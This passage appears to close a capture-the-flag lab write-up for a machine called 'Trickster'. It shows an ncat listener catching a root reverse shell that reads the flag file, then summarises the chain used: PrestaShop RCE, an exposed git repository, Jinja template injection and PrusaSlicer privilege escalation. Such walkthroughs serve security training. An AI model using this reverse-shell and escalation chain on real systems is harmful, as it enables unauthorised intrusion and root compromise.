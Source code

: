 ```shell
Also consider enabling brim.
88 => Estimating curled extrusions
88 => Estimating curled extrusions
88 => Estimating curled extrusions
88 => Estimating curled extrusions
88 => Estimating curled extrusions
88 => Generating skirt and brim
90 => Exporting G-code to TRICKSTER_0.2mm.gcode
```

We catch the root reverse shell and get the flag:
```shell
❯ sudo ncat -l 10.10.14.235 -nvp 4444
Password:
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on 10.10.14.235:4444
Ncat: Connection from 10.129.11.198:44818.
TRICKSTER_0.2mm.gcode
root@trickster:/home/adam# whoami
whoami
root
root@trickster:/home/adam# cat /root/root.txt
cat /root/root.txt
1f4eb13095e3738796b4--snip--
```

## Vulnerabilities Identified

1. **PrestaShop Remote Code Execution**
   - Unauthenticated RCE through malicious theme upload
   - Led to initial foothold

2. **Exposed Git Repository**
   - Revealed sensitive application paths
   - CWE-538: Insertion of Sensitive Information into Externally-Accessible File or Directory

3. **Insecure Credential Storage**
   - Plaintext database credentials in configuration files
   - Led to lateral movement

4. **Jinja Template Injection**
   - Allowed container escape through changedetection.io
   - CWE-74: Improper Neutralization of Special Elements in Output

5. **Privilege Escalation via PrusaSlicer**
   - Improper access controls on post-processing commands
   - Allowed elevation to root

## Tools Used

- Rustscan
- Feroxbuster
- git-dumper
- Hashcat
- Ncat
- Custom exploitation scripts
